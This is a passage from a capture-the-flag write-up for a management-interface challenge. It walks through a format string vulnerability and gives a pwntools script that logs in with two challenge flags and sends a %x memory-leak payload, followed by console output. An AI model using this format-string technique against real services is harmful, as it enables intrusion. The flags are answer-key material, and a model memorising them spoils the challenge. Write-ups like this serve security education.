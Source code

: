 Awesome! So the echo function is in fact vulnerable to a format string attack!

What we can do from here is build a simple Python script that'll log into the server, pass some data into echo and then will recursively execute the `%x` format string which will return data as unsigned hexadecimal integers. 

The reason we do this is because we want to learn where our argument is being stored in memory. In this case I pass `AAAABBBB` before the format string buffer. This is done because once the data is returned, if these characters were stored in memory then we should see their hexadecimal representations of `4141414142424242`.

From there, once we know where our echo argument is stored, we can simply enter the memory address of the `_ZL13shell_enabled` function and use the [%n](https://www.geeksforgeeks.org/g-fact-31/) format string to write to that memory address, thus enabling the shell.

The code that we will use can be seen below:

```python
#!/usr/bin/env python2
from pwn import *
from struct import pack

r = remote('mngmnt-iface.ctfcompetition.com',1337)
print r.recvuntil("3) Quit")

r.send("1\n\n")
print "1"
print r.recvuntil("password")
r.send("CTF{I_luv_buggy_sOFtware}\n")
print "CTF{I_luv_buggy_sOFtware}"

print r.recvuntil("password")
r.send("CTF{Two_PasSworDz_Better_th4n_1_k?}\n")
print "CTF{Two_PasSworDz_Better_th4n_1_k?}"
print r.recvuntil("Authenticated")
print r.recvuntil(">")

buff = ' '.join(["%i=%%%i$x" % (i, i) for i in xrange(1, 50)])
buff = "AAAABBBB" + buff

r.send("echo %s\n" % buff)
print r.recvuntil(">")

r.send("quit\n")
r.send("3")
```

Executing the exploit script should give us the following output.

```console
root@kali:~/Google-CTF/Admin UI# python exp.py
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1

Please enter the backdoo^Wservice password
CTF{I_luv_buggy_sOFtware}
:
! Two factor authentication required !
Please enter secret secondary password
CTF{Two_PasSworDz_Better_th4n_1_k?}
:
Authenticated

```